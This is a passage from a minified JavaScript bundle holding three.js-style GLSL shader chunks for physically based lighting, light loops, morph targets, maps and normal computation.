);\\n\\t#endif\\n\\t#ifdef USE_ANISOTROPY\\n\\t\\tfloat dotTL = dot( material.anisotropyT, lightDir );\\n\\t\\tfloat dotTV = dot( material.anisotropyT, viewDir );\\n\\t\\tfloat dotTH = dot( material.anisotropyT, halfDir );\\n\\t\\tfloat dotBL = dot( material.anisotropyB, lightDir );\\n\\t\\tfloat dotBV = dot( material.anisotropyB, viewDir );\\n\\t\\tfloat dotBH = dot( material.anisotropyB, halfDir );\\n\\t\\tfloat V = V_GGX_SmithCorrelated_Anisotropic( material.alphaT, alpha, dotTV, dotBV, dotTL, dotBL, dotNV, dotNL );\\n\\t\\tfloat D = D_GGX_Anisotropic( material.alphaT, alpha, dotNH, dotTH, dotBH );\\n\\t#else\\n\\t\\tfloat V = V_GGX_SmithCorrelated( alpha, dotNL, dotNV );\\n\\t\\tfloat D = D_GGX( alpha, dotNH );\\n\\t#endif\\n\\treturn F * ( V * D );\\n}\\nvec2 LTC_Uv( const in vec3 N, const in vec3 V, const in float roughness ) {\\n\\tconst float LUT_SIZE = 64.0;\\n\\tconst float LUT_SCALE = ( LUT_SIZE - 1.0 ) / LUT_SIZE;\\n\\tconst float LUT_BIAS = 0.5 / LUT_SIZE;\\n\\tfloat dotNV = saturate( dot( N, V ) );\\n\\tvec2 uv = vec2( roughness, sqrt( 1.0 - dotNV ) );\\n\\tuv = uv * LUT_SCALE + LUT_BIAS;\\n\\treturn uv;\\n}\\nfloat LTC_ClippedSphereFormFactor( const in vec3 f ) {\\n\\tfloat l = length( f );\\n\\treturn max( ( l * l + f.z ) / ( l + 1.0 ), 0.0 );\\n}\\nvec3 LTC_EdgeVectorFormFactor( const in vec3 v1, const in vec3 v2 ) {\\n\\tfloat x = dot( v1, v2 );\\n\\tfloat y = abs( x );\\n\\tfloat a = 0.8543985 + ( 0.4965155 + 0.0145206 * y ) * y;\\n\\tfloat b = 3.4175940 + ( 4.1616724 + y ) * y;\\n\\tfloat v = a / b;\\n\\tfloat theta_sintheta = ( x > 0.0 ) ? v : 0.5 * inversesqrt( max( 1.0 - x * x, 1e-7 ) ) - v;\\n\\treturn cross( v1, v2 ) * theta_sintheta;\\n}\\nvec3 LTC_Evaluate( const in vec3 N, const in vec3 V, const in vec3 P, const in mat3 mInv, const in vec3 rectCoords[ 4 ] ) {\\n\\tvec3 v1 = rectCoords[ 1 ] - rectCoords[ 0 ];\\n\\tvec3 v2 = rectCoords[ 3 ] - rectCoords[ 0 ];\\n\\tvec3 lightNormal = cross( v1, v2 );\\n\\tif( dot( lightNormal, P - rectCoords[ 0 ] ) < 0.0 ) return vec3( 0.0 );\\n\\tvec3 T1, T2;\\n\\tT1 = normalize( V - N * dot( V, N ) );\\n\\tT2 = - cross( N, T1 );\\n\\tmat3 mat = mInv * transposeMat3( mat3( T1, T2, N ) );\\n\\tvec3 coords[ 4 ];\\n\\tcoords[ 0 ] = mat * ( rectCoords[ 0 ] - P );\\n\\tcoords[ 1 ] = mat * ( rectCoords[ 1 ] - P );\\n\\tcoords[ 2 ] = mat * ( rectCoords[ 2 ] - P );\\n\\tcoords[ 3 ] = mat * ( rectCoords[ 3 ] - P );\\n\\tcoords[ 0 ] = normalize( coords[ 0 ] );\\n\\tcoords[ 1 ] = normalize( coords[ 1 ] );\\n\\tcoords[ 2 ] = normalize( coords[ 2 ] );\\n\\tcoords[ 3 ] = normalize( coords[ 3 ] );\\n\\tvec3 vectorFormFactor = vec3( 0.0 );\\n\\tvectorFormFactor += LTC_EdgeVectorFormFactor( coords[ 0 ], coords[ 1 ] );\\n\\tvectorFormFactor += LTC_EdgeVectorFormFactor( coords[ 1 ], coords[ 2 ] );\\n\\tvectorFormFactor += LTC_EdgeVectorFormFactor( coords[ 2 ], coords[ 3 ] );\\n\\tvectorFormFactor += LTC_EdgeVectorFormFactor( coords[ 3 ], coords[ 0 ] );\\n\\tfloat result = LTC_ClippedSphereFormFactor( vectorFormFactor );\\n\\treturn vec3( result );\\n}\\n#if defined( USE_SHEEN )\\nfloat D_Charlie( float roughness, float dotNH ) {\\n\\tfloat alpha = pow2( roughness );\\n\\tfloat invAlpha = 1.0 / alpha;\\n\\tfloat cos2h = dotNH * dotNH;\\n\\tfloat sin2h = max( 1.0 - cos2h, 0.0078125 );\\n\\treturn ( 2.0 + invAlpha ) * pow( sin2h, invAlpha * 0.5 ) / ( 2.0 * PI );\\n}\\nfloat V_Neubelt( float dotNV, float dotNL ) {\\n\\treturn saturate( 1.0 / ( 4.0 * ( dotNL + dotNV - dotNL * dotNV ) ) );\\n}\\nvec3 BRDF_Sheen( const in vec3 lightDir, const in vec3 viewDir, const in vec3 normal, vec3 sheenColor, const in float sheenRoughness ) {\\n\\tvec3 halfDir = normalize( lightDir + viewDir );\\n\\tfloat dotNL = saturate( dot( normal, lightDir ) );\\n\\tfloat dotNV = saturate( dot( normal, viewDir ) );\\n\\tfloat dotNH = saturate( dot( normal, halfDir ) );\\n\\tfloat D = D_Charlie( sheenRoughness, dotNH );\\n\\tfloat V = V_Neubelt( dotNV, dotNL );\\n\\treturn sheenColor * ( D * V );\\n}\\n#endif\\nfloat IBLSheenBRDF( const in vec3 normal, const in vec3 viewDir, const in float roughness ) {\\n\\tfloat dotNV = saturate( dot( normal, viewDir ) );\\n\\tfloat r2 = roughness * roughness;\\n\\tfloat a = roughness < 0.25 ? -339.2 * r2 + 161.4 * roughness - 25.9 : -8.48 * r2 + 14.3 * roughness - 9.95;\\n\\tfloat b = roughness < 0.25 ? 44.0 * r2 - 23.7 * roughness + 3.26 : 1.97 * r2 - 3.27 * roughness + 0.72;\\n\\tfloat DG = exp( a * dotNV + b ) + ( roughness < 0.25 ? 0.0 : 0.1 * ( roughness - 0.25 ) );\\n\\treturn saturate( DG * RECIPROCAL_PI );\\n}\\nvec2 DFGApprox( const in vec3 normal, const in vec3 viewDir, const in float roughness ) {\\n\\tfloat dotNV = saturate( dot( normal, viewDir ) );\\n\\tconst vec4 c0 = vec4( - 1, - 0.0275, - 0.572, 0.022 );\\n\\tconst vec4 c1 = vec4( 1, 0.0425, 1.04, - 0.04 );\\n\\tvec4 r = roughness * c0 + c1;\\n\\tfloat a004 = min( r.x * r.x, exp2( - 9.28 * dotNV ) ) * r.x + r.y;\\n\\tvec2 fab = vec2( - 1.04, 1.04 ) * a004 + r.zw;\\n\\treturn fab;\\n}\\nvec3 EnvironmentBRDF( const in vec3 normal, const in vec3 viewDir, const in vec3 specularColor, const in float specularF90, const in float roughness ) {\\n\\tvec2 fab = DFGApprox( normal, viewDir, roughness );\\n\\treturn specularColor * fab.x + specularF90 * fab.y;\\n}\\n#ifdef USE_IRIDESCENCE\\nvoid computeMultiscatteringIridescence( const in vec3 normal, const in vec3 viewDir, const in vec3 specularColor, const in float specularF90, const in float iridescence, const in vec3 iridescenceF0, const in float roughness, inout vec3 singleScatter, inout vec3 multiScatter ) {\\n#else\\nvoid computeMultiscattering( const in vec3 normal, const in vec3 viewDir, const in vec3 specularColor, const in float specularF90, const in float roughness, inout vec3 singleScatter, inout vec3 multiScatter ) {\\n#endif\\n\\tvec2 fab = DFGApprox( normal, viewDir, roughness );\\n\\t#ifdef USE_IRIDESCENCE\\n\\t\\tvec3 Fr = mix( specularColor, iridescenceF0, iridescence );\\n\\t#else\\n\\t\\tvec3 Fr = specularColor;\\n\\t#endif\\n\\tvec3 FssEss = Fr * fab.x + specularF90 * fab.y;\\n\\tfloat Ess = fab.x + fab.y;\\n\\tfloat Ems = 1.0 - Ess;\\n\\tvec3 Favg = Fr + ( 1.0 - Fr ) * 0.047619;\\tvec3 Fms = FssEss * Favg / ( 1.0 - Ems * Favg );\\n\\tsingleScatter += FssEss;\\n\\tmultiScatter += Fms * Ems;\\n}\\n#if NUM_RECT_AREA_LIGHTS > 0\\n\\tvoid RE_Direct_RectArea_Physical( const in RectAreaLight rectAreaLight, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in PhysicalMaterial material, inout ReflectedLight reflectedLight ) {\\n\\t\\tvec3 normal = geometryNormal;\\n\\t\\tvec3 viewDir = geometryViewDir;\\n\\t\\tvec3 position = geometryPosition;\\n\\t\\tvec3 lightPos = rectAreaLight.position;\\n\\t\\tvec3 halfWidth = rectAreaLight.halfWidth;\\n\\t\\tvec3 halfHeight = rectAreaLight.halfHeight;\\n\\t\\tvec3 lightColor = rectAreaLight.color;\\n\\t\\tfloat roughness = material.roughness;\\n\\t\\tvec3 rectCoords[ 4 ];\\n\\t\\trectCoords[ 0 ] = lightPos + halfWidth - halfHeight;\\t\\trectCoords[ 1 ] = lightPos - halfWidth - halfHeight;\\n\\t\\trectCoords[ 2 ] = lightPos - halfWidth + halfHeight;\\n\\t\\trectCoords[ 3 ] = lightPos + halfWidth + halfHeight;\\n\\t\\tvec2 uv = LTC_Uv( normal, viewDir, roughness );\\n\\t\\tvec4 t1 = texture2D( ltc_1, uv );\\n\\t\\tvec4 t2 = texture2D( ltc_2, uv );\\n\\t\\tmat3 mInv = mat3(\\n\\t\\t\\tvec3( t1.x, 0, t1.y ),\\n\\t\\t\\tvec3(    0, 1,    0 ),\\n\\t\\t\\tvec3( t1.z, 0, t1.w )\\n\\t\\t);\\n\\t\\tvec3 fresnel = ( material.specularColor * t2.x + ( vec3( 1.0 ) - material.specularColor ) * t2.y );\\n\\t\\treflectedLight.directSpecular += lightColor * fresnel * LTC_Evaluate( normal, viewDir, position, mInv, rectCoords );\\n\\t\\treflectedLight.directDiffuse += lightColor * material.diffuseColor * LTC_Evaluate( normal, viewDir, position, mat3( 1.0 ), rectCoords );\\n\\t}\\n#endif\\nvoid RE_Direct_Physical( const in IncidentLight directLight, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in PhysicalMaterial material, inout ReflectedLight reflectedLight ) {\\n\\tfloat dotNL = saturate( dot( geometryNormal, directLight.direction ) );\\n\\tvec3 irradiance = dotNL * directLight.color;\\n\\t#ifdef USE_CLEARCOAT\\n\\t\\tfloat dotNLcc = saturate( dot( geometryClearcoatNormal, directLight.direction ) );\\n\\t\\tvec3 ccIrradiance = dotNLcc * directLight.color;\\n\\t\\tclearcoatSpecularDirect += ccIrradiance * BRDF_GGX_Clearcoat( directLight.direction, geometryViewDir, geometryClearcoatNormal, material );\\n\\t#endif\\n\\t#ifdef USE_SHEEN\\n\\t\\tsheenSpecularDirect += irradiance * BRDF_Sheen( directLight.direction, geometryViewDir, geometryNormal, material.sheenColor, material.sheenRoughness );\\n\\t#endif\\n\\treflectedLight.directSpecular += irradiance * BRDF_GGX( directLight.direction, geometryViewDir, geometryNormal, material );\\n\\treflectedLight.directDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\\n}\\nvoid RE_IndirectDiffuse_Physical( const in vec3 irradiance, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in PhysicalMaterial material, inout ReflectedLight reflectedLight ) {\\n\\treflectedLight.indirectDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\\n}\\nvoid RE_IndirectSpecular_Physical( const in vec3 radiance, const in vec3 irradiance, const in vec3 clearcoatRadiance, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in PhysicalMaterial material, inout ReflectedLight reflectedLight) {\\n\\t#ifdef USE_CLEARCOAT\\n\\t\\tclearcoatSpecularIndirect += clearcoatRadiance * EnvironmentBRDF( geometryClearcoatNormal, geometryViewDir, material.clearcoatF0, material.clearcoatF90, material.clearcoatRoughness );\\n\\t#endif\\n\\t#ifdef USE_SHEEN\\n\\t\\tsheenSpecularIndirect += irradiance * material.sheenColor * IBLSheenBRDF( geometryNormal, geometryViewDir, material.sheenRoughness );\\n\\t#endif\\n\\tvec3 singleScattering = vec3( 0.0 );\\n\\tvec3 multiScattering = vec3( 0.0 );\\n\\tvec3 cosineWeightedIrradiance = irradiance * RECIPROCAL_PI;\\n\\t#ifdef USE_IRIDESCENCE\\n\\t\\tcomputeMultiscatteringIridescence( geometryNormal, geometryViewDir, material.specularColor, material.specularF90, material.iridescence, material.iridescenceFresnel, material.roughness, singleScattering, multiScattering );\\n\\t#else\\n\\t\\tcomputeMultiscattering( geometryNormal, geometryViewDir, material.specularColor, material.specularF90, material.roughness, singleScattering, multiScattering );\\n\\t#endif\\n\\tvec3 totalScattering = singleScattering + multiScattering;\\n\\tvec3 diffuse = material.diffuseColor * ( 1.0 - max( max( totalScattering.r, totalScattering.g ), totalScattering.b ) );\\n\\treflectedLight.indirectSpecular += radiance * singleScattering;\\n\\treflectedLight.indirectSpecular += multiScattering * cosineWeightedIrradiance;\\n\\treflectedLight.indirectDiffuse += diffuse * cosineWeightedIrradiance;\\n}\\n#define RE_Direct\\t\\t\\t\\tRE_Direct_Physical\\n#define RE_Direct_RectArea\\t\\tRE_Direct_RectArea_Physical\\n#define RE_IndirectDiffuse\\t\\tRE_IndirectDiffuse_Physical\\n#define RE_IndirectSpecular\\t\\tRE_IndirectSpecular_Physical\\nfloat computeSpecularOcclusion( const in float dotNV, const in float ambientOcclusion, const in float roughness ) {\\n\\treturn saturate( pow( dotNV + ambientOcclusion, exp2( - 16.0 * roughness - 1.0 ) ) - 1.0 + ambientOcclusion );\\n}\",lights_fragment_begin:\"\\nvec3 geometryPosition = - vViewPosition;\\nvec3 geometryNormal = normal;\\nvec3 geometryViewDir = ( isOrthographic ) ? vec3( 0, 0, 1 ) : normalize( vViewPosition );\\nvec3 geometryClearcoatNormal = vec3( 0.0 );\\n#ifdef USE_CLEARCOAT\\n\\tgeometryClearcoatNormal = clearcoatNormal;\\n#endif\\n#ifdef USE_IRIDESCENCE\\n\\tfloat dotNVi = saturate( dot( normal, geometryViewDir ) );\\n\\tif ( material.iridescenceThickness == 0.0 ) {\\n\\t\\tmaterial.iridescence = 0.0;\\n\\t} else {\\n\\t\\tmaterial.iridescence = saturate( material.iridescence );\\n\\t}\\n\\tif ( material.iridescence > 0.0 ) {\\n\\t\\tmaterial.iridescenceFresnel = evalIridescence( 1.0, material.iridescenceIOR, dotNVi, material.iridescenceThickness, material.specularColor );\\n\\t\\tmaterial.iridescenceF0 = Schlick_to_F0( material.iridescenceFresnel, 1.0, dotNVi );\\n\\t}\\n#endif\\nIncidentLight directLight;\\n#if ( NUM_POINT_LIGHTS > 0 ) && defined( RE_Direct )\\n\\tPointLight pointLight;\\n\\t#if defined( USE_SHADOWMAP ) && NUM_POINT_LIGHT_SHADOWS > 0\\n\\tPointLightShadow pointLightShadow;\\n\\t#endif\\n\\t#pragma unroll_loop_start\\n\\tfor ( int i = 0; i < NUM_POINT_LIGHTS; i ++ ) {\\n\\t\\tpointLight = pointLights[ i ];\\n\\t\\tgetPointLightInfo( pointLight, geometryPosition, directLight );\\n\\t\\t#if defined( USE_SHADOWMAP ) && ( UNROLLED_LOOP_INDEX < NUM_POINT_LIGHT_SHADOWS )\\n\\t\\tpointLightShadow = pointLightShadows[ i ];\\n\\t\\tdirectLight.color *= ( directLight.visible && receiveShadow ) ? getPointShadow( pointShadowMap[ i ], pointLightShadow.shadowMapSize, pointLightShadow.shadowIntensity, pointLightShadow.shadowBias, pointLightShadow.shadowRadius, vPointShadowCoord[ i ], pointLightShadow.shadowCameraNear, pointLightShadow.shadowCameraFar ) : 1.0;\\n\\t\\t#endif\\n\\t\\tRE_Direct( directLight, geometryPosition, geometryNormal, geometryViewDir, geometryClearcoatNormal, material, reflectedLight );\\n\\t}\\n\\t#pragma unroll_loop_end\\n#endif\\n#if ( NUM_SPOT_LIGHTS > 0 ) && defined( RE_Direct )\\n\\tSpotLight spotLight;\\n\\tvec4 spotColor;\\n\\tvec3 spotLightCoord;\\n\\tbool inSpotLightMap;\\n\\t#if defined( USE_SHADOWMAP ) && NUM_SPOT_LIGHT_SHADOWS > 0\\n\\tSpotLightShadow spotLightShadow;\\n\\t#endif\\n\\t#pragma unroll_loop_start\\n\\tfor ( int i = 0; i < NUM_SPOT_LIGHTS; i ++ ) {\\n\\t\\tspotLight = spotLights[ i ];\\n\\t\\tgetSpotLightInfo( spotLight, geometryPosition, directLight );\\n\\t\\t#if ( UNROLLED_LOOP_INDEX < NUM_SPOT_LIGHT_SHADOWS_WITH_MAPS )\\n\\t\\t#define SPOT_LIGHT_MAP_INDEX UNROLLED_LOOP_INDEX\\n\\t\\t#elif ( UNROLLED_LOOP_INDEX < NUM_SPOT_LIGHT_SHADOWS )\\n\\t\\t#define SPOT_LIGHT_MAP_INDEX NUM_SPOT_LIGHT_MAPS\\n\\t\\t#else\\n\\t\\t#define SPOT_LIGHT_MAP_INDEX ( UNROLLED_LOOP_INDEX - NUM_SPOT_LIGHT_SHADOWS + NUM_SPOT_LIGHT_SHADOWS_WITH_MAPS )\\n\\t\\t#endif\\n\\t\\t#if ( SPOT_LIGHT_MAP_INDEX < NUM_SPOT_LIGHT_MAPS )\\n\\t\\t\\tspotLightCoord = vSpotLightCoord[ i ].xyz / vSpotLightCoord[ i ].w;\\n\\t\\t\\tinSpotLightMap = all( lessThan( abs( spotLightCoord * 2. - 1. ), vec3( 1.0 ) ) );\\n\\t\\t\\tspotColor = texture2D( spotLightMap[ SPOT_LIGHT_MAP_INDEX ], spotLightCoord.xy );\\n\\t\\t\\tdirectLight.color = inSpotLightMap ? directLight.color * spotColor.rgb : directLight.color;\\n\\t\\t#endif\\n\\t\\t#undef SPOT_LIGHT_MAP_INDEX\\n\\t\\t#if defined( USE_SHADOWMAP ) && ( UNROLLED_LOOP_INDEX < NUM_SPOT_LIGHT_SHADOWS )\\n\\t\\tspotLightShadow = spotLightShadows[ i ];\\n\\t\\tdirectLight.color *= ( directLight.visible && receiveShadow ) ? getShadow( spotShadowMap[ i ], spotLightShadow.shadowMapSize, spotLightShadow.shadowIntensity, spotLightShadow.shadowBias, spotLightShadow.shadowRadius, vSpotLightCoord[ i ] ) : 1.0;\\n\\t\\t#endif\\n\\t\\tRE_Direct( directLight, geometryPosition, geometryNormal, geometryViewDir, geometryClearcoatNormal, material, reflectedLight );\\n\\t}\\n\\t#pragma unroll_loop_end\\n#endif\\n#if ( NUM_DIR_LIGHTS > 0 ) && defined( RE_Direct )\\n\\tDirectionalLight directionalLight;\\n\\t#if defined( USE_SHADOWMAP ) && NUM_DIR_LIGHT_SHADOWS > 0\\n\\tDirectionalLightShadow directionalLightShadow;\\n\\t#endif\\n\\t#pragma unroll_loop_start\\n\\tfor ( int i = 0; i < NUM_DIR_LIGHTS; i ++ ) {\\n\\t\\tdirectionalLight = directionalLights[ i ];\\n\\t\\tgetDirectionalLightInfo( directionalLight, directLight );\\n\\t\\t#if defined( USE_SHADOWMAP ) && ( UNROLLED_LOOP_INDEX < NUM_DIR_LIGHT_SHADOWS )\\n\\t\\tdirectionalLightShadow = directionalLightShadows[ i ];\\n\\t\\tdirectLight.color *= ( directLight.visible && receiveShadow ) ? getShadow( directionalShadowMap[ i ], directionalLightShadow.shadowMapSize, directionalLightShadow.shadowIntensity, directionalLightShadow.shadowBias, directionalLightShadow.shadowRadius, vDirectionalShadowCoord[ i ] ) : 1.0;\\n\\t\\t#endif\\n\\t\\tRE_Direct( directLight, geometryPosition, geometryNormal, geometryViewDir, geometryClearcoatNormal, material, reflectedLight );\\n\\t}\\n\\t#pragma unroll_loop_end\\n#endif\\n#if ( NUM_RECT_AREA_LIGHTS > 0 ) && defined( RE_Direct_RectArea )\\n\\tRectAreaLight rectAreaLight;\\n\\t#pragma unroll_loop_start\\n\\tfor ( int i = 0; i < NUM_RECT_AREA_LIGHTS; i ++ ) {\\n\\t\\trectAreaLight = rectAreaLights[ i ];\\n\\t\\tRE_Direct_RectArea( rectAreaLight, geometryPosition, geometryNormal, geometryViewDir, geometryClearcoatNormal, material, reflectedLight );\\n\\t}\\n\\t#pragma unroll_loop_end\\n#endif\\n#if defined( RE_IndirectDiffuse )\\n\\tvec3 iblIrradiance = vec3( 0.0 );\\n\\tvec3 irradiance = getAmbientLightIrradiance( ambientLightColor );\\n\\t#if defined( USE_LIGHT_PROBES )\\n\\t\\tirradiance += getLightProbeIrradiance( lightProbe, geometryNormal );\\n\\t#endif\\n\\t#if ( NUM_HEMI_LIGHTS > 0 )\\n\\t\\t#pragma unroll_loop_start\\n\\t\\tfor ( int i = 0; i < NUM_HEMI_LIGHTS; i ++ ) {\\n\\t\\t\\tirradiance += getHemisphereLightIrradiance( hemisphereLights[ i ], geometryNormal );\\n\\t\\t}\\n\\t\\t#pragma unroll_loop_end\\n\\t#endif\\n#endif\\n#if defined( RE_IndirectSpecular )\\n\\tvec3 radiance = vec3( 0.0 );\\n\\tvec3 clearcoatRadiance = vec3( 0.0 );\\n#endif\",lights_fragment_maps:\"#if defined( RE_IndirectDiffuse )\\n\\t#ifdef USE_LIGHTMAP\\n\\t\\tvec4 lightMapTexel = texture2D( lightMap, vLightMapUv );\\n\\t\\tvec3 lightMapIrradiance = lightMapTexel.rgb * lightMapIntensity;\\n\\t\\tirradiance += lightMapIrradiance;\\n\\t#endif\\n\\t#if defined( USE_ENVMAP ) && defined( STANDARD ) && defined( ENVMAP_TYPE_CUBE_UV )\\n\\t\\tiblIrradiance += getIBLIrradiance( geometryNormal );\\n\\t#endif\\n#endif\\n#if defined( USE_ENVMAP ) && defined( RE_IndirectSpecular )\\n\\t#ifdef USE_ANISOTROPY\\n\\t\\tradiance += getIBLAnisotropyRadiance( geometryViewDir, geometryNormal, material.roughness, material.anisotropyB, material.anisotropy );\\n\\t#else\\n\\t\\tradiance += getIBLRadiance( geometryViewDir, geometryNormal, material.roughness );\\n\\t#endif\\n\\t#ifdef USE_CLEARCOAT\\n\\t\\tclearcoatRadiance += getIBLRadiance( geometryViewDir, geometryClearcoatNormal, material.clearcoatRoughness );\\n\\t#endif\\n#endif\",lights_fragment_end:\"#if defined( RE_IndirectDiffuse )\\n\\tRE_IndirectDiffuse( irradiance, geometryPosition, geometryNormal, geometryViewDir, geometryClearcoatNormal, material, reflectedLight );\\n#endif\\n#if defined( RE_IndirectSpecular )\\n\\tRE_IndirectSpecular( radiance, iblIrradiance, clearcoatRadiance, geometryPosition, geometryNormal, geometryViewDir, geometryClearcoatNormal, material, reflectedLight );\\n#endif\",logdepthbuf_fragment:\"#if defined( USE_LOGDEPTHBUF )\\n\\tgl_FragDepth = vIsPerspective == 0.0 ? gl_FragCoord.z : log2( vFragDepth ) * logDepthBufFC * 0.5;\\n#endif\",logdepthbuf_pars_fragment:\"#if defined( USE_LOGDEPTHBUF )\\n\\tuniform float logDepthBufFC;\\n\\tvarying float vFragDepth;\\n\\tvarying float vIsPerspective;\\n#endif\",logdepthbuf_pars_vertex:\"#ifdef USE_LOGDEPTHBUF\\n\\tvarying float vFragDepth;\\n\\tvarying float vIsPerspective;\\n#endif\",logdepthbuf_vertex:\"#ifdef USE_LOGDEPTHBUF\\n\\tvFragDepth = 1.0 + gl_Position.w;\\n\\tvIsPerspective = float( isPerspectiveMatrix( projectionMatrix ) );\\n#endif\",map_fragment:\"#ifdef USE_MAP\\n\\tvec4 sampledDiffuseColor = texture2D( map, vMapUv );\\n\\t#ifdef DECODE_VIDEO_TEXTURE\\n\\t\\tsampledDiffuseColor = vec4( mix( pow( sampledDiffuseColor.rgb * 0.9478672986 + vec3( 0.0521327014 ), vec3( 2.4 ) ), sampledDiffuseColor.rgb * 0.0773993808, vec3( lessThanEqual( sampledDiffuseColor.rgb, vec3( 0.04045 ) ) ) ), sampledDiffuseColor.w );\\n\\t\\n\\t#endif\\n\\tdiffuseColor *= sampledDiffuseColor;\\n#endif\",map_pars_fragment:\"#ifdef USE_MAP\\n\\tuniform sampler2D map;\\n#endif\",map_particle_fragment:\"#if defined( USE_MAP ) || defined( USE_ALPHAMAP )\\n\\t#if defined( USE_POINTS_UV )\\n\\t\\tvec2 uv = vUv;\\n\\t#else\\n\\t\\tvec2 uv = ( uvTransform * vec3( gl_PointCoord.x, 1.0 - gl_PointCoord.y, 1 ) ).xy;\\n\\t#endif\\n#endif\\n#ifdef USE_MAP\\n\\tdiffuseColor *= texture2D( map, uv );\\n#endif\\n#ifdef USE_ALPHAMAP\\n\\tdiffuseColor.a *= texture2D( alphaMap, uv ).g;\\n#endif\",map_particle_pars_fragment:\"#if defined( USE_POINTS_UV )\\n\\tvarying vec2 vUv;\\n#else\\n\\t#if defined( USE_MAP ) || defined( USE_ALPHAMAP )\\n\\t\\tuniform mat3 uvTransform;\\n\\t#endif\\n#endif\\n#ifdef USE_MAP\\n\\tuniform sampler2D map;\\n#endif\\n#ifdef USE_ALPHAMAP\\n\\tuniform sampler2D alphaMap;\\n#endif\",metalnessmap_fragment:\"float metalnessFactor = metalness;\\n#ifdef USE_METALNESSMAP\\n\\tvec4 texelMetalness = texture2D( metalnessMap, vMetalnessMapUv );\\n\\tmetalnessFactor *= texelMetalness.b;\\n#endif\",metalnessmap_pars_fragment:\"#ifdef USE_METALNESSMAP\\n\\tuniform sampler2D metalnessMap;\\n#endif\",morphinstance_vertex:\"#ifdef USE_INSTANCING_MORPH\\n\\tfloat morphTargetInfluences[ MORPHTARGETS_COUNT ];\\n\\tfloat morphTargetBaseInfluence = texelFetch( morphTexture, ivec2( 0, gl_InstanceID ), 0 ).r;\\n\\tfor ( int i = 0; i < MORPHTARGETS_COUNT; i ++ ) {\\n\\t\\tmorphTargetInfluences[i] =  texelFetch( morphTexture, ivec2( i + 1, gl_InstanceID ), 0 ).r;\\n\\t}\\n#endif\",morphcolor_vertex:\"#if defined( USE_MORPHCOLORS )\\n\\tvColor *= morphTargetBaseInfluence;\\n\\tfor ( int i = 0; i < MORPHTARGETS_COUNT; i ++ ) {\\n\\t\\t#if defined( USE_COLOR_ALPHA )\\n\\t\\t\\tif ( morphTargetInfluences[ i ] != 0.0 ) vColor += getMorph( gl_VertexID, i, 2 ) * morphTargetInfluences[ i ];\\n\\t\\t#elif defined( USE_COLOR )\\n\\t\\t\\tif ( morphTargetInfluences[ i ] != 0.0 ) vColor += getMorph( gl_VertexID, i, 2 ).rgb * morphTargetInfluences[ i ];\\n\\t\\t#endif\\n\\t}\\n#endif\",morphnormal_vertex:\"#ifdef USE_MORPHNORMALS\\n\\tobjectNormal *= morphTargetBaseInfluence;\\n\\tfor ( int i = 0; i < MORPHTARGETS_COUNT; i ++ ) {\\n\\t\\tif ( morphTargetInfluences[ i ] != 0.0 ) objectNormal += getMorph( gl_VertexID, i, 1 ).xyz * morphTargetInfluences[ i ];\\n\\t}\\n#endif\",morphtarget_pars_vertex:\"#ifdef USE_MORPHTARGETS\\n\\t#ifndef USE_INSTANCING_MORPH\\n\\t\\tuniform float morphTargetBaseInfluence;\\n\\t\\tuniform float morphTargetInfluences[ MORPHTARGETS_COUNT ];\\n\\t#endif\\n\\tuniform sampler2DArray morphTargetsTexture;\\n\\tuniform ivec2 morphTargetsTextureSize;\\n\\tvec4 getMorph( const in int vertexIndex, const in int morphTargetIndex, const in int offset ) {\\n\\t\\tint texelIndex = vertexIndex * MORPHTARGETS_TEXTURE_STRIDE + offset;\\n\\t\\tint y = texelIndex / morphTargetsTextureSize.x;\\n\\t\\tint x = texelIndex - y * morphTargetsTextureSize.x;\\n\\t\\tivec3 morphUV = ivec3( x, y, morphTargetIndex );\\n\\t\\treturn texelFetch( morphTargetsTexture, morphUV, 0 );\\n\\t}\\n#endif\",morphtarget_vertex:\"#ifdef USE_MORPHTARGETS\\n\\ttransformed *= morphTargetBaseInfluence;\\n\\tfor ( int i = 0; i < MORPHTARGETS_COUNT; i ++ ) {\\n\\t\\tif ( morphTargetInfluences[ i ] != 0.0 ) transformed += getMorph( gl_VertexID, i, 0 ).xyz * morphTargetInfluences[ i ];\\n\\t}\\n#endif\",normal_fragment_begin:\"float faceDirection = gl_FrontFacing ? 1.0 : - 1.0;\\n#ifdef FLAT_SHADED\\n\\tvec3 fdx = dFdx( vViewPosition );\\n\\tvec3 fdy = dFdy( vViewPosition );\\n\\tvec3 normal = normalize( cross( fdx, fdy ) );\\n#else\\n\\tvec3 normal = normalize( vNormal );\\n\\t#ifdef DOUBLE_SIDED\\n\\t\\tnormal *= faceDirection;\\n\\t#endif\\n#endif\\n#if defined( USE_NORMALMAP_TANGENTSPACE ) || defined( USE_CLEARCOAT_NORMALMAP ) || defined( USE_ANISOTROPY )\\n\\t#ifdef USE_TANGENT\\n\\t\\tmat3 tbn = mat3( normalize( vTangent ), normalize( vBitangent ), normal );\\n\\t#else\\n\\t\\tmat3 tbn = getTangentFrame( - vViewPosition, normal,\\n\\t\\t#if defined( USE_NORMALMAP )\\n\\t\\t\\tvNormalMapUv\\n\\t\\t#elif defined( USE_CLEARCOAT_NORMALMAP )\\n\\t\\t\\tvClearcoatNormalMapUv\\n\\t\\t#else\\n\\t\\t\\tvUv\\n\\t\\t#endif\\n\\t\\t);\\n\\t#endif\\n\\t#if defined( DOUBLE_SIDED ) && ! defined( FLAT_SHADED )\\n\\t\\ttbn[0] *= faceDirection;\\n\\t\\ttbn[1] *= faceDirection;\\n\\t#endif\\n#endif\\n#ifdef USE_CLEARCOAT_NORMALMAP\\n\\t#ifdef USE_TANGENT\\n\\t\\tmat3 tbn2 = mat3( normalize( vTangent ), normalize( vBitangent ), normal );\\n\\t#else\\n\\t\\tmat3 tbn2 = getTangentFrame( - vViewPosition, normal, vClearcoatNormalMapUv );\\n\\t#endif\\n\\t#if defined( DOUBLE_SIDED ) && ! defined( FLAT_SHADED )\\n\\t\\ttbn2[0] *= faceDirection;\\n\\t\\ttbn2[1] *= faceDirection;\\n\\t#endif\\n#endif\\nvec3 nonPerturbedNormal = 